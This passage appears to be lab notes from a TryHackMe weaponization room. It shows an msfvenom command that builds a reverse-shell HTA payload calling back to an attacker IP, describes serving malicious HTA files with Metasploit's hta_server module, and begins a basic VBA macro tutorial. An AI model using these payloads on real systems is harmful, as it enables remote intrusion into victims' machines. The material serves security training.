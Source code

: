 ### HTA Reverse Connection

We can create a reverse shell payload as follows,

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta`

### Malicious HTA via Metasploit

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using `msfconsole -q` command. Under the exploit section, there is `exploit/windows/misc/hta_server`, which requires selecting and setting information such as `LHOST`, `LPORT`, `SRVHOST`, `Payload`, and finally, executing `exploit` to run the module.

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

-------------------------------------------------------

## Visual Basic for Application - VBA

Visual Basic for Application (VBA)

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface (API) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 

In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents.

Now open Microsoft Word 2016 from the Start menu. Once it is opened, we close the product key window since we will use it within the seven-day trial period.

### 3.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Now create a new blank Microsoft document to create our first `macro`. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting `view → macros`. The Macros window shows to create our own macro within the document.

### 4.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

In the `Macro name` section, we choose to name our macro as `THM`. Note that we need to select from the `Macros in` list `Document1` and finally select `create`. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: `Welcome to Weaponization Room!`. We can do that using the `MsgBox` function as follows:
